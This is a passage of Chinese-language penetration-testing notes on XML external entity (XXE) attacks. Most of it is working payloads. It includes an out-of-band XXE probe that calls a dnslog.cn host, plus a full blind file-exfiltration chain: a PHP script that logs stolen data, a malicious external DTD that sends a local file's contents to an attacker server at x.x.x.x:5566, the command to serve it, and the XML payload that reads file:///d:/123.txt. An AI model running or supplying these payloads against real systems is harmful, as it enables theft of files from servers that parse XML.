 ![image-20240512163517475](D:\Infiltration\笔记\note\图片\image-20240512163517475.png)

##### 使用带外测试

```
<?xml version="1.0" ?>
<!DOCTYPE test [
    <!ENTITY % file SYSTEM "http://55vl9k.dnslog.cn">
    %file;
]>
```

![image-20240512203333397](D:\Infiltration\笔记\note\图片\image-20240512203333397.png)



![image-20240512203312015](D:\Infiltration\笔记\note\图片\image-20240512203312015.png)



##### 无回显读文件

###### 原格式读取

将get.php放入到服务器，

```
<?php
$data=$_GET['file']; 
$myfile = fopen("file.txt", "w+");
fwrite($myfile, $data);
fclose($myfile);
?>
```

将test.dtd放入服务器

```
<!ENTITY % all "<!ENTITY send SYSTEM 'http://x.x.x.x:5566/get.php?file=%file;'>">
```

开启php服务

```
php -S 0.0.0.0:5566
```

![image-20240512141835809](D:\Infiltration\笔记\note\图片\image-20240512141835809.png)

```
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "file:///d:/123.txt">
<!ENTITY % remote SYSTEM "http://x.x.x.x:5566/test.dtd">
%remote;
%all;
]>
<root>&send;</root>
```
